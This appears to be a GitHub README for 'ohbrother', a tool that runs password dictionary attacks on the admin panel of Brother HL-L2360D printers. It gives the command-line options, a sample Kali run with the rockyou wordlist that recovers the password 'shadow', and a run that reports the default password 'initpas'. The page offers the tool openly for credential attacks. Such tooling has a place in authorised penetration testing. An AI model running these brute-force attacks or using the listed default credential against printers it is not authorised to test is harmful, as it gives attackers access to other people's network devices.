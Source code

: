 # ohbrother
Brother Printer Admin Panel Dictionary attack tool (Designed for the HL-L2360D series)
```
usage: ohbrother.py [-h] --ip-address IP_ADDRESS [--port PORT] [--wordlist WORDLIST]

Brother Printer Admin Panel Dictionary attack (Designed for the HL-L2360D series)

options:
  -h, --help            show this help message and exit
  --ip-address IP_ADDRESS, -i IP_ADDRESS
                        IP Address of the printer
  --port PORT, -p PORT  Port the admin interface is running on (default: 80)
  --wordlist WORDLIST, -W WORDLIST
                        Wordlist to use to attack the printer (default:
                        /usr/share/wordlists/rockyou.txt)
```

# Usage
Dictionary attack using the default wordlist
```
┌──(kali㉿kali)-[~]
└─$ python3 ohbrother.py --ip-address 192.168.0.77
[00:15:05] {/home/kali/ohbrother.py:60} INFO - [*] Starting a dictionary attack on http://192.168.0.77:80/general/status.html
[00:16:19] {/home/kali/ohbrother.py:66} INFO - [*] found correct password: shadow
```
Ohbrother checks for common default brother passwords

```
C:\Users\DrewQ\Desktop\Brother>python main.py --wordlist "C:\Users\DrewQ\Downloads\passwords.txt" --ip-address 192.168.0.77
[23:14:00] {C:\Users\DrewQ\Desktop\Brother\main.py:49} INFO - [*] default password was set: initpas
```
